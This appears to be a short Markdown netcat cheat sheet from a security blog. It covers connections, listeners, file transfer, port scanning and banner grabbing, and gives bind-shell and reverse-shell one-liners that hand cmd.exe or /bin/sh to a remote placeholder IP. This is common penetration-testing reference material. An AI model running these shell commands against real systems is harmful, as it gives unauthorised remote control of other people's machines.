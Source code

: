 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


# Usage
***
Insert picture here

# Basic  
***
#### TCP Port - Connecting  
`nc -nv <IP> <PORT>`

#### TCP Port - Listening  
`nc -lvp <PORT>`

#### Connect and return HTTP Page  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

#### File Transfer  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

#### Port Scanning  
`nc -z <IP> <PORT RANGE>`

#### Banner Grabbing  
`echo "" | nc -nv -w1 <IP Address> <Ports>`

# Windows  
***
#### Bind Shell  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443 # Attacking Machine - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target Machine - Sending`

# Nix  
***
#### Bind Shell  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`


# Additional Resources  
***
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
